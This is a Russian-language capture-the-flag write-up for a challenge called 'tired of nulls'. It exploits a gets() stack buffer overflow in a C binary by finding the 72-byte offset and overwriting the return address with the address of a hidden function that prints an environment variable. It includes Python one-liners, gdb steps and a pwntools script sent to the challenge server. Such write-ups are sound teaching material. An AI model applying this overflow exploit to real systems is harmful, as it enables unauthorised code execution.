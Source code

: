 # tired of nulls writeup

Нам дан код на C, использующий небезопасную функцию [gets()](https://www.c-cpp.ru/content/gets) и самописная функция dont_call_me(), которая выводит переменную окружения. 

Внимательно просмотрев код, можно заметить, что функция dont_call_me() не вызывается в нашем main, там вообще ничего не вызывается.

### Что же делать? 
Обратить внимание, что буфер заполняется через gets(). Нужно понять, как ее проэксплуатировать (подсказка: размер введенной строки пользователя может быть БОЛЬШЕ, чем размер нашего буфера).

Теперь узнаем адрес нашего [rip регистра](https://linux-doc.ru/programming/assembler/architecture/rip.php), чтобы понять, как это сделать, будем использовать скомпилированный файл 3asypwn и python. Суть в том, чтобы получить [SEGFAULT](https://ru.wikipedia.org/wiki/%D0%9E%D1%88%D0%B8%D0%B1%D0%BA%D0%B0_%D1%81%D0%B5%D0%B3%D0%BC%D0%B5%D0%BD%D1%82%D0%B0%D1%86%D0%B8%D0%B8), благодаря этому узнаем смещение до нашего rip регистра.

Делается это с помощью команды `python -c "print 'A'* OFFSET" | ./3asypwn`, изначально примем `OFFSET=64`, потому что буфер именно такого размера, и будем увеличивать его на 4 до тех пор, пока не получим нужную ошибку. Произойдет это при 72 сдвиге, значит следующие 16 байтов - rip. Их нужно изменить, но на какое значение? 

Настало время [gdb](https://ru.wikipedia.org/wiki/GNU_Debugger). С его помощью легко можно узнать адрес функции flag(), запускаем `gdb -q ./3asypwn` и прописываем `disas dont_call_me` - в первой строке получаем то, что искали `0x0000000000400607`.

### Вызовем функцию! 
Это можно сделать двумя способами:

1. bash: `python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]" | ./3asypwn`
2. gdb: ```r -A < <(python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]")```

Второй способ позволяет передать в gdb null-bytes (\x00), в отличие от способа передачи $(), который их игнорирует.

Функция отработала, отлично, теперь переходим к боевому стенду! Для удобства работы напишем python скрипт.

```python
from pwn import *

conn = remote('TARGET_IP', TARGET_PORT)

OFFSET = 72
payload = OFFSET * 'A' + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1] 
conn.sendline(payload)
print(conn.recv())
```

 Отправляем нашу полезную нагрузку и получаем флаг: **kxctf{u_@r3_str0ng_0n3_but_th4ts_n0t_4ll_tg_OxSBI}**
